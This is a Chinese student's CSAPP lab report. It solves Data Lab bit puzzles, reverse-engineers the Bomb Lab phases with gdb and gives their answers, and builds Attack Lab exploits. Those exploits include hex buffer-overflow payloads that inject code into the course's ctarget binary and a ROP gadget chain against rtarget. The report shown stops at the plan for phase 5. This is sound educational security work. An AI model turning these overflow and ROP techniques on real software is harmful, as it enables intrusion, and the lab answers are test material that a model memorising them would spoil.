

# CSAPP 实验报告

PB20000180 刘良宇

## 实验环境


ubuntu 21.10, x86_64

## Data Lab

### 0. Pre

一上来读完实验说明，试图先编译测试用程序 `btest`，

```bash
make btest
```

但报错如下：

```bash
/usr/include/limits.h:26:10: fatal error: bits/libc-header-start.h: 没有那个文件或目录
```

查看编译选项发现 `m32`，为了确保实验不出现意外，选择安装 32 位依赖库：

```bash
sudo apt-get install gcc-multilib
```

成功编译 `btest`

附 Readme 中实验要求：

1. 只允许使用 0 - 255 之间的整数常量
2. 不允许使用全局变量
3. 一元运算符 ! ~
4. 二元运算符 & ^ | + << >>

不能：

1. Use any control constructs such as if, do, while, for, switch, etc.
2. Define or use any macros.
3. Define any additional functions in this file.
4. Call any functions.
5. Use any other operations, such as &&, ||, -, or ?:
6. Use any form of casting.
7. Use any data type other than int. This implies that you
   cannot use arrays, structs, or unions.

可以假定：

1. Uses 2s complement, 32-bit representations of integers.
2. Performs right shifts arithmetically.
3. Has unpredictable behavior when shifting if the shift amount is less than 0 or greater than 31.

### 1. bitXor

用 ~ & 实现 ^

异或用与非式表达即可。假设 $A,B$ 是两个布尔变量：

$A \oplus B = A\overline{B}+\overline{A}B = \overline{\overline{A\overline{B}} \ \overline{\overline{A}B}}$

所以补全程序：

```cpp
return ~(~(x & (~y)) & ~(y & (~x)));
```


### 2. tmin

返回最小的补码表示下的整数

32 位下是 `x80000000`， 1 左移 31 位即可

```cpp
return 1 << 31;
```

### 3. isTmax

判断一个数是不是最大的补码表示下的整数

对 x 变形，考察数字特征。注意排除特例

```cpp
int neg1;
neg1 = !(~x);
return !((~(x + 1) ^ x) | neg1);
```

### 4. allOddBits

判断与 0xAAAAAAAA 与后数字是否仍为 0xAAAAAAAA 即可

```cpp
int all_odd = 0xAA + (0xAA << 8) + (0xAA << 16) + (0xAA << 24);
return !((x & all_odd) ^ all_odd);
```

### 5. negate

取反加 1

```cpp
return (~x) + 1;
```

### 6. isAsciiDigit

需要分别判断是否大于等于，小于等于

如果有其中一者不满足，那么就返回 0

因此采用逻辑 `!(isUpper | isLower)`

```cpp
int sign = 1 << 31;

int isUpper = sign & ((~(sign | 0x39)) + x) >> 31;
int isLower = sign & ((~0x30) + 1 + x) >> 31;

return !(isUpper | isLower);
```

### 7. conditional

条件表达式，我们希望 x 是否成立作为条件，并且结果映射到 {0, 0xffffffff}， 后续就很好处理了

```cpp
int is_x = !x + ~0;        // 若 x 成立，为 0xffffffff
int is_not_x = ~is_x;      // 若 x 不成立，为 0xffffffff
// 如果 is_x 是 0xffffffff，取 y，否则取 z
return (y & is_x) + (z & is_not_x);
```

### 8. isLessOrEqual

$x \le y \iff y - x \ge 0$

- 如果 $y$ 非负 $x$ 负，成立
- 如果 $y$ 负 $x$ 非负，不成立
- 否则判断 $y-x$ （保证不发生算数溢出）

```cpp
int sign = 1 << 31;
int cond1 = (!(y & sign)) & (!!(x & sign));
int cond2 = (!(x & sign)) & (!!(y & sign));
int cond3 = !((y + ~x + 1) & (1 << 31));
return cond1 | ((!cond2) & cond3);
```

条件 1 满足，答案为 1，否则需要条件 2 不满足，条件 3 满足才返回 1

### 9. logicalNeg

实现逻辑非，则需要对 0 进行判断

考察 0 的特征：对于正数，负数，其相反数的符号位（基本会发生变化），特例：int_min，但总而言之一组相反数符号位必定有 1

但 0 和 0 的相反数（自身）符号位都为 0，所以可以据此判断：

```cpp
return ((x | (~x + 1)) >> 31) + 1;
```

### 10. howManyBits

本题正数和负数判断的逻辑是不一样的：负数中间的多余的 1 相当于可以省去

所以首先统一对正数和负数的判断：

```cpp
int sign = x >> 31;
x = (sign & ~x) | (~sign & x);
```

如果 x 为负数，则取反（和正数统一到找最高位为 1 的）

剩下的部分类似于数字电路中的优先编码器, 仿照逻辑编写每一位即可：

```cpp
int b16, b8, b4, b2, b1, b0;

b16 = !!(x >> 16) << 4;
x = x >> b16;
b8 = !!(x >> 8) << 3;
x = x >> b8;
b4 = !!(x >> 4) << 2;
x = x >> b4;
b2 = !!(x >> 2) << 1;
x = x >> b2;
b1 = !!(x >> 1);
x = x >> b1;
b0 = x;
return b16 + b8 + b4 + b2 + b1 + b0 + 1;
```

最后加上符号位的一位

### 11. floatScale2

特判，注意符号位如果是负数需要补上

```cpp
int expo = (uf & 0x7f800000) >> 23;
int sign = uf & (1 << 31);
if (expo == 0)
   return (uf << 1) + sign;
if (expo == 254)
   return 0x7f800000 + sign;
if (expo == 255)
   return uf;

return ((expo + 1) << 23) + (uf & 0x807fffff);
```

### 12. floatFloat2Int

(未做出) 需要考虑的情况有点多

### 13. floatPower2

按照指数位 bias 的定义做即可

```cpp
int exp = x + 127;
if (exp <= 0)
   return 0;
if (exp >= 255)
   return 0xff << 23;
return exp << 23;
```

### X. final



通过代码要求测试，实际完成题目 12/13

## Bomb Lab

根据 .c 文件的提示，我们需要正确输入 6 个字符串

本次实验要求使用简单的反汇编，阅读汇编代码

首先拿到可执行文件，进行反汇编处理


接下来的实验内容主要是需要分析各个 phase 的汇编代码

注意以上文件仅仅是 text 段的代码数据，实际上可以使用

```bash
objdump -s bomb > bomb_att_s.s
```

导出其他区的数据（包括 data 段和 rodata 段，即已经初始化的全局变量区和全局常量区，这个在后面会很实用）

### phase1


不难发现，通过调用 `strings_not_equal` 这一函数判断输入字符串和给定字符串是否相等。

输入字符串的地址和 `0x402400` 作为 `strings_not_equal` 的两个参数被传入

`0x402400` 看起来像是一个地址，根据调用函数名，我们也可以猜测， `0x402400` 就是我们需要的字符串的地址

可以使用 gdb，在调用函数 (`400ee9`) 前打上断点，然后此时检查 `0x402400` 处的值：


得到了 phase1 的答案： `Border relations with Canada have never been better.`

当然，也可以直接看 rodata 段这一部分内存的数据


注意以 `\0` 代表字符串结束

### phase2

阅读汇编：


注意到最早的循环在 `x400efc+x1b=x400f17` 处

```asm
400f17:	8b 43 fc             	mov    -0x4(%rbx),%eax
```

所以先看前面的代码。阅读可得，首先栈上开辟 40 字节的内存，然后调用 `read_six_numbers`，这里应该是直接传入栈指针，读入了 6 个数，可以联系后文（栈指针 +24）：

```asm
400f35: lea    0x18(%rsp),%rbp
```

证实

读入后，第一句就是

```asm
400f0a:	83 3c 24 01          	cmpl   $0x1,(%rsp)
```

所以第一个数应该是 1

随后我们来找每次循环的判断依据

```asm
# 比较下一个数
400f17:	8b 43 fc             	mov    -0x4(%rbx),%eax
# %eax = %eax + %eax
400f1a:	01 c0                	add    %eax,%eax
400f1c:	39 03                	cmp    %eax,(%rbx)
# 再利用此时的 %eax 比较
400f1e:	74 05                	je     400f25 <phase_2+0x29>
400f20:	e8 15 05 00 00       	call   40143a <explode_bomb>
400f25:	48 83 c3 04          	add    $0x4,%rbx
# 下面判断是否比较完，没比较完就跳转回去
400f29:	48 39 eb             	cmp    %rbp,%rbx
400f2c:	75 e9                	jne    400f17 <phase_2+0x1b>
400f2e:	eb 0c                	jmp    400f3c <phase_2+0x40>
```

所以应该是个每次乘 2 的等比数列

故 phase2 答案： `1 2 4 8 16 32`

### phase3

阅读汇编：


类似 phase1，我们在调用函数 `sscanf` 前打一个断点


发现 `sscanf` 应该是读入了两个整数

后面有一段跳转十分类似，我们可以先分析：它们都跳转到 `0x400fbe`，进行：

```asm
400fbe:	3b 44 24 0c          	cmp    0xc(%rsp),%eax
400fc2:	74 05                	je     400fc9 <phase_3+0x86>
400fc4:	e8 71 04 00 00       	call   40143a <explode_bomb>
400fc9:	48 83 c4 18          	add    $0x18,%rsp
400fcd:	c3                   	ret
```

比较操作，判断是爆炸还是返回

而我们究竟会从哪个地方跳转到 `0x400fbe` 呢？

回头看前面代码：

```asm
# 判断返回值，确保读入两个数
400f60:	83 f8 01             	cmp    $0x1,%eax
400f63:	7f 05                	jg     400f6a <phase_3+0x27>
400f65:	e8 d0 04 00 00       	call   40143a <explode_bomb>
# %rsp + 8 处内存值需要不大于 7
400f6a:	83 7c 24 08 07       	cmpl   $0x7,0x8(%rsp)
400f6f:	77 3c                	ja     400fad <phase_3+0x6a>
# %rsp + 8 处内存值赋值给 %eax
400f71:	8b 44 24 08          	mov    0x8(%rsp),%eax
# 跳转 %rax * 8 + 0x402470 处储存的地址
400f75:	ff 24 c5 70 24 40 00 	jmp    *0x402470(,%rax,8)
```

`%rsp + 8` 处即为我们输入第一个数。根据输入第一个数不同，跳转位置也不同

以输入 0 为例：


而：

`400f7c: b8 cf 00 00 00 mov $0xcf,%eax`

所以 `0 207` （207 即 0xcf） 是 phase3 一组合理的解

### phase4


里面另外调用了一个函数 `func4`


由 `0x400fe9` 和 `0x400ffe` 可得 `func4` 是一个递归函数

没有很直接的突破口，所以先把 phase4 的函数翻译

```asm
# 0x4025cf 与 phase3 相同，说明读入两个数
40101a:	be cf 25 40 00       	mov    $0x4025cf,%esi
40101f:	b8 00 00 00 00       	mov    $0x0,%eax
401024:	e8 c7 fb ff ff       	call   400bf0 <__isoc99_sscanf@plt>
# 比较返回值，确保读入了两个数
401029:	83 f8 02             	cmp    $0x2,%eax
40102c:	75 07                	jne    401035 <phase_4+0x29>
# 第一个参数应该小于 14
40102e:	83 7c 24 08 0e       	cmpl   $0xe,0x8(%rsp)
401033:	76 05                	jbe    40103a <phase_4+0x2e>
401035:	e8 00 04 00 00       	call   40143a <explode_bomb>
# 传参：edi 第一个参数, esi 0, edx 14
40103a:	ba 0e 00 00 00       	mov    $0xe,%edx
40103f:	be 00 00 00 00       	mov    $0x0,%esi
401044:	8b 7c 24 08          	mov    0x8(%rsp),%edi
401048:	e8 81 ff ff ff       	call   400fce <func4>
# func4 返回值应该是 0
40104d:	85 c0                	test   %eax,%eax
40104f:	75 07                	jne    401058 <phase_4+0x4c>
# 第二个参数为 0
401051:	83 7c 24 0c 00       	cmpl   $0x0,0xc(%rsp)
401056:	74 05                	je     40105d <phase_4+0x51>
401058:	e8 dd 03 00 00       	call   40143a <explode_bomb>
```

可以发现，要求传入两个参数，第一个参数小于 14，第二个参数为 0。要求选取第一个参数，使得 func4 返回值为 0

那么我们来观察 func4 的函数。已经确定了两个参数的情况下，着重观察 `%edi`

```asm
400fe2:	39 f9                	cmp    %edi,%ecx
400fe4:	7e 0c                	jle    400ff2 <func4+0x24>
......
400ff7:	39 f9                	cmp    %edi,%ecx
400ff9:	7d 0c                	jge    401007 <func4+0x39>
```

如果为输入为 %ecx，那么应当正好能返回 0

根据前面代码：

```asm
400fce:	48 83 ec 08          	sub    $0x8,%rsp
# %eax = 14
400fd2:	89 d0                	mov    %edx,%eax
400fd4:	29 f0                	sub    %esi,%eax
400fd6:	89 c1                	mov    %eax,%ecx
# %ecx = %eax >> 31 = 0
400fd8:	c1 e9 1f             	shr    $0x1f,%ecx
# %eax += %ecx, %eax = 14
400fdb:	01 c8                	add    %ecx,%eax
# %eax = %eax >> 1 = 7
400fdd:	d1 f8                	sar    %eax
# %ecx = %rax + %rsi = 7
400fdf:	8d 0c 30             	lea    (%rax,%rsi,1),%ecx
```

所以 phase4 输入 `7 0` 即可

### phase5

代码：

```asm
# 开辟栈空间
401062:	53                   	push   %rbx
401063:	48 83 ec 20          	sub    $0x20,%rsp
401067:	48 89 fb             	mov    %rdi,%rbx
40106a:	64 48 8b 04 25 28 00 	mov    %fs:0x28,%rax
401071:	00 00
401073:	48 89 44 24 18       	mov    %rax,0x18(%rsp)
401078:	31 c0                	xor    %eax,%eax
# 字符串长度验证。应该为 6
40107a:	e8 9c 02 00 00       	call   40131b <string_length>
40107f:	83 f8 06             	cmp    $0x6,%eax
401082:	74 4e                	je     4010d2 <phase_5+0x70>
401084:	e8 b1 03 00 00       	call   40143a <explode_bomb>
401089:	eb 47                	jmp    4010d2 <phase_5+0x70>
# %ecx = %rbx + %rax
40108b:	0f b6 0c 03          	movzbl (%rbx,%rax,1),%ecx
# 取低八位
40108f:	88 0c 24             	mov    %cl,(%rsp)
401092:	48 8b 14 24          	mov    (%rsp),%rdx
# 0b1111，取低 4 位
401096:	83 e2 0f             	and    $0xf,%edx
# %edx = %rdx + 0x4024b0 值
401099:	0f b6 92 b0 24 40 00 	movzbl 0x4024b0(%rdx),%edx
# %edx 低八位 => 0x10 + %rsp + %rax
4010a0:	88 54 04 10          	mov    %dl,0x10(%rsp,%rax,1)
# %rax = %rax + 1
4010a4:	48 83 c0 01          	add    $0x1,%rax
# 说明循环长度为 6
4010a8:	48 83 f8 06          	cmp    $0x6,%rax
4010ac:	75 dd                	jne    40108b <phase_5+0x29>
4010ae:	c6 44 24 16 00       	movb   $0x0,0x16(%rsp)
# %esi => 0x40245e
4010b3:	be 5e 24 40 00       	mov    $0x40245e,%esi
# %rdi => 0x10(%rsp)，即循环中的字符串
4010b8:	48 8d 7c 24 10       	lea    0x10(%rsp),%rdi
# 比较 %esi 和 %rdi 指向字符串，应该相等
4010bd:	e8 76 02 00 00       	call   401338 <strings_not_equal>
4010c2:	85 c0                	test   %eax,%eax
4010c4:	74 13                	je     4010d9 <phase_5+0x77>
4010c6:	e8 6f 03 00 00       	call   40143a <explode_bomb>
4010cb:	0f 1f 44 00 00       	nopl   0x0(%rax,%rax,1)
4010d0:	eb 07                	jmp    4010d9 <phase_5+0x77>
4010d2:	b8 00 00 00 00       	mov    $0x0,%eax
4010d7:	eb b2                	jmp    40108b <phase_5+0x29>

# 循环赋初值
4010d9:	48 8b 44 24 18       	mov    0x18(%rsp),%rax
4010de:	64 48 33 04 25 28 00 	xor    %fs:0x28,%rax
4010e5:	00 00
4010e7:	74 05                	je     4010ee <phase_5+0x8c>
4010e9:	e8 42 fa ff ff       	call   400b30 <__stack_chk_fail@plt>
4010ee:	48 83 c4 20          	add    $0x20,%rsp
4010f2:	5b                   	pop    %rbx
4010f3:	c3                   	ret
```

翻译完后，我们发现需要得到 `0x4024b0` 和 `0x40245e` 处的字符串。

打断点，并检查内存：

```bash
(gdb) x/s 0x4024b0
0x4024b0 <array.3449>:  "maduiersnfotvbylSo you think you can stop the bomb with ctrl-c, do you?"

(gdb) x/s 0x40245e
0x40245e:       "flyers"
```

当然检查 rodata 段也是可行的


注意解除炸弹的关键在于 `比较 %esi 和 %rdi 指向字符串`

我们已经得到了一个 "flyers"，那么另一个字符串是怎么生成的呢？

注意：

```asm
# %edx = %rdx + 0x4024b0 值
401099:	0f b6 92 b0 24 40 00 	movzbl 0x4024b0(%rdx),%edx
# %edx 低八位 => 0x10 + %rsp + %rax
4010a0:	88 54 04 10          	mov    %dl,0x10(%rsp,%rax,1)
```

关键在于 %rdx 这里起到了索引的作用，查找 `flyers` 在 `maduiersnfotvbyl` 中的索引位置，不难得到：`9, 15, 14, 5, 6, 7`

那么我们怎么生成这个索引数组呢？注意看上一句：

`401096: 83 e2 0f and $0xf,%edx`

所以这一索引数组就是我们输入字符的 ASCII 码的低 4 位

查表得到一个可能的答案： `)/.%&'`

用其他的合理的 ASCII 组合也是可行的

### phase6

最复杂的一个阶段

开头依旧是读取六个数字，这里不再赘述

接下来看后面逻辑：

```asm
40110b:	49 89 e6             	mov    %rsp,%r14
40110e:	41 bc 00 00 00 00    	mov    $0x0,%r12d
401114:	4c 89 ed             	mov    %r13,%rbp
401117:	41 8b 45 00          	mov    0x0(%r13),%eax
40111b:	83 e8 01             	sub    $0x1,%eax
40111e:	83 f8 05             	cmp    $0x5,%eax
401121:	76 05                	jbe    401128 <phase_6+0x34>
401123:	e8 12 03 00 00       	call   40143a <explode_bomb>
401128:	41 83 c4 01          	add    $0x1,%r12d
40112c:	41 83 fc 06          	cmp    $0x6,%r12d
401130:	74 21                	je     401153 <phase_6+0x5f>
401132:	44 89 e3             	mov    %r12d,%ebx
401135:	48 63 c3             	movslq %ebx,%rax
401138:	8b 04 84             	mov    (%rsp,%rax,4),%eax
40113b:	39 45 00             	cmp    %eax,0x0(%rbp)
40113e:	75 05                	jne    401145 <phase_6+0x51>
401140:	e8 f5 02 00 00       	call   40143a <explode_bomb>
401145:	83 c3 01             	add    $0x1,%ebx
401148:	83 fb 05             	cmp    $0x5,%ebx
40114b:	7e e8                	jle    401135 <phase_6+0x41>
40114d:	49 83 c5 04          	add    $0x4,%r13
401151:	eb c1                	jmp    401114 <phase_6+0x20>
```

大概翻译一下：

```cpp
for (int i = 0; i < 6; i++){
   if (a[i] - 1 > 5) {
      explode_bomb();
   }
   for (int j = i + 1; j <= 5; j++) {
      if(a[j] == a[i]) {
         explode_bomb();
      }
   }
}
```

虽然汇编看起来有点迷惑，但还是可以理解这是限制读入的 6 个数必须不大于 6 并且互不相等。

可以在这一段之后打个断点，输入数字测试，验证这一结论。

再看下一段：

```asm
401153:	48 8d 74 24 18       	lea    0x18(%rsp),%rsi
401158:	4c 89 f0             	mov    %r14,%rax
40115b:	b9 07 00 00 00       	mov    $0x7,%ecx
401160:	89 ca                	mov    %ecx,%edx
# %edx = 7 - num, num = 7 - num
401162:	2b 10                	sub    (%rax),%edx
401164:	89 10                	mov    %edx,(%rax)
# 循环读取每一个数
401166:	48 83 c0 04          	add    $0x4,%rax
40116a:	48 39 f0             	cmp    %rsi,%rax
40116d:	75 f1                	jne    401160 <phase_6+0x6c>
40116f:	be 00 00 00 00       	mov    $0x0,%esi
```

```cpp
for (int i = 0; i < 6; i++) {
   a[i] = 7 - a[i];
}
```

可见数组中的每一个数都被 7 减了。这个时候数组中的数依然是 1 到 6 的全排列

再之后：

```asm
401174:	eb 21                	jmp    401197 <phase_6+0xa3>
401176:	48 8b 52 08          	mov    0x8(%rdx),%rdx
# 循环 6 次
40117a:	83 c0 01             	add    $0x1,%eax
40117d:	39 c8                	cmp    %ecx,%eax
40117f:	75 f5                	jne    401176 <phase_6+0x82>
# 跳出地址
401181:	eb 05                	jmp    401188 <phase_6+0x94>
401183:	ba d0 32 60 00       	mov    $0x6032d0,%edx
401188:	48 89 54 74 20       	mov    %rdx,0x20(%rsp,%rsi,2)
40118d:	48 83 c6 04          	add    $0x4,%rsi
401191:	48 83 fe 18          	cmp    $0x18,%rsi
401195:	74 14                	je     4011ab <phase_6+0xb7>
401197:	8b 0c 34             	mov    (%rsp,%rsi,1),%ecx
40119a:	83 f9 01             	cmp    $0x1,%ecx
40119d:	7e e4                	jle    401183 <phase_6+0x8f>
40119f:	b8 01 00 00 00       	mov    $0x1,%eax
4011a4:	ba d0 32 60 00       	mov    $0x6032d0,%edx
4011a9:	eb cb                	jmp    401176 <phase_6+0x82>

4011ab:	48 8b 5c 24 20       	mov    0x20(%rsp),%rbx
4011b0:	48 8d 44 24 28       	lea    0x28(%rsp),%rax
4011b5:	48 8d 74 24 50       	lea    0x50(%rsp),%rsi
4011ba:	48 89 d9             	mov    %rbx,%rcx
4011bd:	48 8b 10             	mov    (%rax),%rdx
4011c0:	48 89 51 08          	mov    %rdx,0x8(%rcx)
4011c4:	48 83 c0 08          	add    $0x8,%rax
4011c8:	48 39 f0             	cmp    %rsi,%rax
4011cb:	74 05                	je     4011d2 <phase_6+0xde>
4011cd:	48 89 d1             	mov    %rdx,%rcx
4011d0:	eb eb                	jmp    4011bd <phase_6+0xc9>
4011d2:	48 c7 42 08 00 00 00 	movq   $0x0,0x8(%rdx)
```

`0x6032d0` 这个内存地址很有意思，我们还是第一次看见 `0x6` 开头的。先用系统工具看一下这是哪一片内存：


下面系统链接的库不看，只看前三行：依次应该是 text, BSS, data

那么 `0x6032d0` 是 data 段，可直接在文件中搜索：


找到了一定的规律，似乎恰好 16 个字节为一组

有了这个思想指导，我们再打个断点，观察输入不同数字导致 `0x6032d0` 片内存的变化

输入 `[1, 2, 3, 4, 5, 6]`

经过 num = 7 - num 后，应该是 `[6, 5, 4, 3, 2, 1]`


输入 `[6, 5, 4, 3, 2, 1]`

经过 num = 7 - num 后，应该是 `[1, 2, 3, 4, 5, 6]`


发现第三列发生了变化

观察可得，第三列应该是地址值，而且依次相接恰好是数组的顺序

这样我们就明白，以上的代码应该是建立起了一个链表

那么最后一部分代码干了什么呢？

```asm
4011da:	bd 05 00 00 00       	mov    $0x5,%ebp
4011df:	48 8b 43 08          	mov    0x8(%rbx),%rax
4011e3:	8b 00                	mov    (%rax),%eax
4011e5:	39 03                	cmp    %eax,(%rbx)
4011e7:	7d 05                	jge    4011ee <phase_6+0xfa>
4011e9:	e8 4c 02 00 00       	call   40143a <explode_bomb>
4011ee:	48 8b 5b 08          	mov    0x8(%rbx),%rbx

4011f2:	83 ed 01             	sub    $0x1,%ebp
4011f5:	75 e8                	jne    4011df <phase_6+0xeb>
4011f7:	48 83 c4 50          	add    $0x50,%rsp
4011fb:	5b                   	pop    %rbx
4011fc:	5d                   	pop    %rbp
4011fd:	41 5c                	pop    %r12
4011ff:	41 5d                	pop    %r13
401201:	41 5e                	pop    %r14
401203:	c3                   	ret
```

上面是链表循环遍历从表头直到末尾。遍历的循环过程不再详细翻译，只要注意标注感叹号的部分即可：这说明循环过程中一直在比较链表中相邻结点中 “第一列” （见上面的断点图片）元素的大小，要求降序排列，否则炸弹爆炸

我们手动给第一列元素大小排个降序： `3 4 5 6 1 2`

再拿 7 依次减去每一项： `4 3 2 1 6 5`

至此，6 个 phase 全部解开：


### phase extra

附加阶段，似乎更麻烦一点，没做了）

### 感想

二进制文件的调试有时只看源代码太过麻烦，掌握合理的 gdb 断点调试技巧很重要

## Attack Lab

本实验需要利用代码注入攻击和 ROP 攻击

因为本地执行 `ctarget` 直接报错，所以这里采用 vlab 提供的 ubuntu 18.04 环境进行本实验


### phase1

查看实验说明中给出的函数：

```cpp
void test()
{
   int val;
   val = getbuf();
   printf("No exploit. Getbuf returned 0x%x\n", val);
}

void touch1() {
   vlevel = 1;
   printf("Touch!: You called touch1()\n");
   validate(1);
   exit(0);
}
```

实验说明中提到 `getbuf` 与 c 语言标准库的 get 类似，都有内存溢出的可能。因此我们通过输入字符串的溢出，修改该函数返回地址即可进入 `touch1`，达到攻击目的

为此，首先需要查看 `getbuf` 缓冲区的大小：

```asm
00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp
  4017ac:	48 89 e7             	mov    %rsp,%rdi
  4017af:	e8 8c 02 00 00       	call   401a40 <Gets>
  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
  4017b9:	48 83 c4 28          	add    $0x28,%rsp
  4017bd:	c3                   	ret
  4017be:	90                   	nop
  4017bf:	90                   	nop
```

0x28，即为 40 个字节

然后查看 `touch1` 函数的地址：

`004017c0 <touch1>:`

所以只需要在 40 个任意字节后输入这一地址即可。注意是小端序，地址需要翻转：

```
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
c0 17 40 00 00 00 00 00
```

即可通过


### phase2

首先还是看说明里的函数代码：

```cpp
void touch2(unsigned val){
   vlevel = 2;
   if (val == cookie){
      printf("Touch2!: You called touch2(0x%.8x)\n", val);
      validate(2);
   } else {
      printf("Misfire: You called touch2(0x%.8x)\n", val);
      fail(2);
   }
   exit(0);
}
```

可得这次我们在调用 `touch2` 的同时，还需要向它传入一个值为 `cookie` 值的参数，否则直接调用会判定为失败：


查看反汇编：

```asm
00000000004017ec <touch2>:
  4017ec:	48 83 ec 08          	sub    $0x8,%rsp
  4017f0:	89 fa                	mov    %edi,%edx
  4017f2:	c7 05 e0 2c 20 00 02 	movl   $0x2,0x202ce0(%rip)        # 6044dc <vlevel>
  4017f9:	00 00 00
  4017fc:	3b 3d e2 2c 20 00    	cmp    0x202ce2(%rip),%edi        # 6044e4 <cookie>
```

看起来我们需要在调用 `touch2` 前修改 `%rdi` 寄存器的值。这就要求我们进行代码注入：

```asm
movq    $0x59b997fa, %rdi
pushq   0x4017ec
ret
```

如题目说明中所说，`ret` 是比较方面操作跳转地址的，所以我们采用 `ret` 指令

在跳转前，修改 `%rdi` 寄存器，并把要跳转的 `touch2` 地址压入栈

接着先汇编再反汇编：


得到这段代码的机器码：

```asm
0000000000000000 <.text>:
   0:   48 c7 c7 fa 97 69 59    mov    $0x596997fa,%rdi
   7:   68 ec 17 40 00          pushq  $0x4017ec
   c:   c3                      retq
```

这次，我们帧栈中的返回值应该改为这段注入代码的地址。我们不妨把这段注入代码放在 buf 开头，这样直接打断点，看栈指针即可获取我们需要的地址：


得到 `0x5561dc78`

同理注意小端序，最后的答案如下：

```
48 c7 c7 fa 97 b9 59 68 ec 17
40 00 c3 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
```

通过测试：


### phase3

首先还是函数代码：

```cpp
void touch3(char *sval){
   vlevel = 3;
   if (hexmatch(cookie, sval)){
      printf("Touch3!: You called touch3(\"%s\")\n", sval);
      validate(3);
   } else {
      printf("Misfire: You called touch3(\"%s\")\n", sval);
      fail(3);
   }
   exit(0);
}
int hexmatch(unsigned val, char *sval){
   char cbuf[110];
   char *s = cbuf + random() % 100;
   sprintf(s, "%.8x", val);
   return strncmp(sval, s, 9) == 0;
}
```

与第二题很类似，也是需要进行代码注入，修改函数参数

但不同的是，这次需要传入一个字符串指针 `sval` 指向 `cookie` 的字符串表示 `0x59b997fa`，我们只能控制字符串存在栈区，但是栈区的内存随着新函数的调用 (`touch3` 和 `hexmatch`) 会被分配给新的函数，导致这片内存可能被覆盖

因此，相比 phase2 答案，我们需要做以下更改：

- 在末尾增加 cookie 的 ascii 编码表示，这样恰好会在返回地址之后，不影响正常函数调用。同时，字符串保存在了调用 `getbuf` 的 `test` 函数的帧栈内，不用担心随着 `getbuf` 的返回导致这片内存被重新分配，覆盖

- 表示 cookie 的字符串地址可以直接通过 phase2 的 %rsp 值加上字符串之前的字节数 （48, 即 0x30） 得到 `0x5561dca8`, 这也就是调用 `touch3` 应该传入的参数

- pushq 的为 `touch3` 地址，查看反汇编文件得到 `0x004018fa`

即可得到最后答案：

```
48 c7 c7 a8 dc 61 55 68 fa 18
40 00 c3 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00 35 39
62 39 39 37 66 61 00
```

并通过测试：


### phase4

需要用到 ROP 攻击，简述一下这部分题目的原理：

rtarget 相比之前的 ctarget 更难攻击，因为：

- 开启了栈随机化，无法准确获知代码注入的地址

- PC 无法指向栈内地址，否则会直接报内存错误

但对于 rtarget，我们仍然可以利用 ROP 攻击：

ROP 攻击一般得满足如下条件

- 程序存在溢出。

- 可以找到满足条件的 gadgets 以及相应 gadgets 的地址。

> 当我们没办法直接执行自己 inject 进去的指令时，就可以利用这个可执行文件里本来就有的程序片段来凑出我们想执行的功能，这些片段就称为 gadget

gadget 通常是 `ret` 语句结尾（并不需要严格对应反汇编的语句，只需要有 `c3` 即可），我们通过内存越界更改返回地址，就可以让程序依次执行一系列 gadgets

这样，我们通过一系列 gadgets 拼凑出我们希望执行的指令，例如如下就是一个 gadget:

```asm
0000000000400f15 <setval_210>:
  400f15: c7 07 d4 48 89 c7   movl $0xc78948d4,(%rdi)
  400f1b: c3                  retq
```

相当于执行了 `movl $0xc78948d4,(%rdi)`，也可以修改任意的起始地址，只要拼凑出的字节码执行的命令是我们需要的即可

phase4 的要求与 phase2 类似，需要修改 `%rdi` 寄存器值为 cookie 值

如何把栈内的值存到寄存器内呢？显然我们需要一条 `popq` 语句。很遗憾没有找到直接 `popq %rdi` 的 gadget，但是我们也可以和 `movq` 配合，先 `popq` 到另一个寄存器，再 `movq` 到 `%rdi`

搜索 `48 89` （这是为了 `movq` 到 `%rdi` ），找到以下 gadget

```asm
00000000004019a0 <addval_273>:
  4019a0:	8d 87 48 89 c7 c3    	lea    -0x3c3876b8(%rdi),%eax
  4019a6:	c3                   	ret
```

有用字节码为 `48 89 c7`。查表得我们需要寻找 `popq` 到 `%rax` 的 gadget

搜索 `58`

```asm
00000000004019a7 <addval_219>:
  4019a7:	8d 87 51 73 58 90    	lea    -0x6fa78caf(%rdi),%eax
  4019ad:	c3                   	ret
```

由于 `90` 恰好是 `nop`，所以我们就找到了需要的两个 gadget

得到答案（同理注意端序）：

```
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
ab 19 40 00 00 00 00 00
fa 97 b9 59 00 00 00 00
a2 19 40 00 00 00 00 00
ec 17 40 00 00 00 00 00
```

通过：


### phase5

同 phase3 类似，但是由于栈随机化，我们无法准确获知栈中插入字符串的地址

`farm.c` 里特意给了一个：

```cpp
/* Add two arguments */
long add_xy(long x, long y)
{
    return x + y;
}
```

有详细注释的函数，猜测应该是需要通过 `%rsp` 寄存器和偏移量算出字符串地址

查看这个函数的汇编：

```asm
00000000004019d6 <add_xy>:
  4019d6:	48 8d 04 37          	lea    (%rdi,%rsi,1),%rax
  4019da:	c3                   	ret
```

因此我们需要设法把 `%rsp` 和偏移量放到 `%rdi` 和 `%rsi` 内，再把加法结果，即 `%rax` 值传到 `%rdi` 内，最后调用函数即可

